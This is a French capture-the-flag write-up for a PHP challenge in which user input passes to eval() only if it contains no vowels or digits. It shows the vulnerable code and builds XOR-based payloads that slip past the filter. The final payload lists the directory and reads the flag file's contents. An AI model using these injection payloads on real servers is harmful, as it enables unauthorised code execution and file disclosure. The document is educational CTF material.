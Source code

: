# Lipogrammeurs - 200

## Description

`Vous avez trouvé cette page qui vous semble étrange. Pouvez-vous nous convaincre qu'il y a effectivement un problème en retrouvant le flag présent sur le serveur ?`

## Solution

La page principale contient un script php :

```php
if (isset($_GET['code'])) {
    $code = substr($code, 0, 250);
    if (preg_match('/a|e|i|o|u|y|[0-9]/i', $code)) {
        print($code);
        die('No way! PREG');
    } else {
        try {
            print($code);
            eval($code);
        } catch (ParseError $e) {
            die('No way! Go PARSE!');
        }
}
```

On veut donc faire évaluer le contenu de notre variable _code_, ainsi on pourra chercher le flag sur le serveur.

Pour cela nous devons réussir à passer la condition :

```php
preg_match('/a|e|i|o|u|y|[0-9]/i', $code)
```

Notre variable _code_ ne doit donc pas contenir de voyelles ni de chiffres, ce qui n'est pas très pratique si l'on veut dénicher le flag. Il faut donc trouver un moyen de passer outre.

Pour cela on va utiliser des particularités du langage php à notre avantage :

-   XORer deux caractères pour en obtenir un troisième.
-   Passer une variable sans l'avoir définie au préalable, car php estimera alors qu'il s'agit implicitement d'un string.

Préparons notre payload à l'aide de XORs :

```php
php > print_r(scandir("."));
Array
(
    [0] => .
    [1] => ..
    [2] => .git
)
php > $a = 'pr'.("!"^"H").'nt_r(sc'.("?"^"^").'nd'.("!"^"H").'r("."));';
php > eval($b);
Array
(
    [0] => .
    [1] => ..
    [2] => .git
)
```

Mais on ne passe finalement pas le test :

```php
php > print_r(preg_match('/a|e|i|o|u|y|[0-9]/i', $a));
1
php > echo $a;
print_r(scandir("."));
```

En effet, en utilisant XOR on peut retrouver les caractères qui nous sont interdits, mais pour passer la condition, il ne faut pas que les XORs soient interprétés avant la fonction `preg_match`.

Il faut donc contourner ce problème (d'où l'intérêt de la seconde particularité énoncée ci-avant) :

```php
php > $b = "(pr.('!'^'H').nt_r)((sc.('?'^'^').nd.('!'^'H').r)('.'));";
php > echo $b;
(pr.('!'^'H').nt_r)((sc.('?'^'^').nd.('!'^'H').r)('.'));
php > print_r(preg_match('/a|e|i|o|u|y|[0-9]/i', $b));
0
```

On arrive bien a contourner le test, mais qu'en est-il de la fonction `eval` ?

```php
php > eval($b);
#PHP Warning:  Use of undefined constant pr - assumed 'pr' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
#PHP Warning:  Use of undefined constant nt_r - assumed 'nt_r' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
#PHP Warning:  Use of undefined constant sc - assumed 'sc' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
#PHP Warning:  Use of undefined constant nd - assumed 'nd' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
#PHP Warning:  Use of undefined constant r - assumed 'r' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
Array
(
    [0] => .
    [1] => ..
    [2] => .git
```

Impeccable ! En effet, à l'évaluation php estime que nos constantes non définies sont des strings, il s'occupe alors d'y concatener les XORs (cette fois évalués), ce que nous permet d'injecter notre payload.

On vérifie :

![lipo1](../../Images/lipogrammeurs_1.PNG)

Nous avons fait le plus dur, reste désormais à récupérer le flag à l'aide de la payload suivante :

```php
(pr.('!'^'H').nt_r)((f.('!'^'H').l.('^'^';')._g.('^'^';').t_c.('!'^'N').nt.('^'^';').nts)((sc.('?'^'^').nd.('!'^'H').r)('.')[('B'^'p')]));
# print_r(file_get_contents(scandir('.')[2]))
```

Aurions-nous eu tout faux ?

![lipo2](../../Images/lipogrammeurs_2.PNG)

On se rappelle que le flag était un fichier php, une inspection des sources aura tôt fait de nous rassurer :

![lipo3](../../Images/lipogrammeurs_3.PNG)
